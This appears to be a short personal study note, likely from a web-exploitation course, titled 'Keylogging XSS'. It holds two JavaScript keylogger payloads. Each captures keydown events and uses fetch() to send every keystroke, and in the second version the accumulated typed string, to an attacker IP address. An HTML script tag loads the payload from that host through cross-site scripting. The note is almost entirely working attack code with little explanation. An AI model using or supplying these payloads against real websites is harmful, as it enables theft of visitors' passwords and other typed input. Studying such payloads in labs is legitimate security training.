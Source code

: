 ```yaml
---
tags:
- xss
---
```


# Keylogging XSS

How use external payload see here: [[2023042721181010 XSS external JS payload]]
## Payload
```js
attackerIp = "192.168.49.55";
function logKey(event){
        fetch("http://" + attackerIp + "/k?key=" + event.key);
}

document.addEventListener('keydown', logKey);
```
### Another way
```js
attackerIp = "192.168.45.224";
window.keyWord12345788 = "";
function logKey(event){
    window.keyWord12345788 += event.key    
    fetch("http://" + attackerIp + "/k?key=" + event.key + "&word=" + window.keyWord12345788);
        
}

document.addEventListener('keydown', logKey);
```

## Inject payload 
```html
<script src='http://192.168.49.55/xss.js'></script>
```

## References
1. web200.Cross-Site Scripting Exploitation and Case Study.Keyloggin 
2. 